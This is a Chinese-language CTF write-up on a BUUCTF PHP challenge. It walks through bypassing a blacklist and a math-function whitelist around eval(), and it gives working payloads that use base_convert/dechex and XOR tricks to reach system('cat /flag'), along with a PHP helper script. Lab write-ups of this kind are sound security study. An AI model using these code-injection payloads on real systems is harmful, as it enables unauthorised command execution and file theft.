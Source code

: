 ```yaml
---
title: buuoj刷题记录7
date: 2020-01-10 22:19:24
tags:
 - buuctf
 - web
 - 命令执行
---
```


## 0x00 基础

`eval`可以执行PHP语句

`hex2bin`可以将十六进制的字符转成字符串，结果是字符串类型

`dechex`将十进制转换成十六进制，结果是字符串类型

PHP中数组除了可以使用[ ]  还可以使用{ }

PHP中调用shell命令使用`system()`

<!--more-->

PHP中关于进制转换函数,*dec 都是整型，其他都是字符串类型

https://blog.csdn.net/Auuuuuuuu/article/details/88778852

## 0x02 分析

源码分析

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

会将输入的字符进行过滤，过滤了空格、换行符、制表符、单双引号、反引号、中括号，以及只能出现白名单中的单词。

最后有一个`eval`可以执行PHP语句，想办法构造$\_GET或者$\_POST

可以利用函数转变也可以使用异或

## 0x03 操作

payload1：`?sin=cat /flag&cos=system&c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{cos}($$pi{sin})`

![](/pic/23.png)

异或方法

开始用python写，字符串转十六进制，纠结了很久很久，只有int可以异或。还是选择PHP

```
<?php
$need=['_GET','_POST','_REQUEST'];
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
foreach ($whitelist as $item )
{
    foreach ($need as $x)
    {

        if (in_array($x ^ $item^ $item ,$need))  //在PHP中异或
        {
            echo $x ^ $item;
            echo '|--- '.$x.' --- '.$item;
            echo '|<br/>';
        }
        
    }
}
?>
```

在结果中发现有一个纯数字的还有一个`9**0`,但是没想到怎么利用`9**0`

```
9**0|--- _GET --- fmod|
8"1&|--- _GET --- getrandmax|
85;!5|--- _POST --- getrandmax|
871#4+79|--- _REQUEST --- getrandmax|
7"=0|--- _GET --- hexdec|
75771|--- _POST --- hexdec|
7>5;|--- _GET --- hypot|
```

构造payload：`http://c5da3eac-8e0b-45e3-b441-971c92aa946c.node3.buuoj.cn/?c=$pi=decoct(31737)^hexdec;$$pi{abs}($$pi{cos})`

post 数据：`abs=system&cos=cat /flag`



![](/pic/24.png)

在PHP中无法直接数字与不加引号的字符异或，需要将数字转换成字符类型

![](/pic/25.png)

![](/pic/26.png)

![](/pic/27.png)

PHP异或操作，x位与x+n位异或结果是x位，后面n位直接丢弃。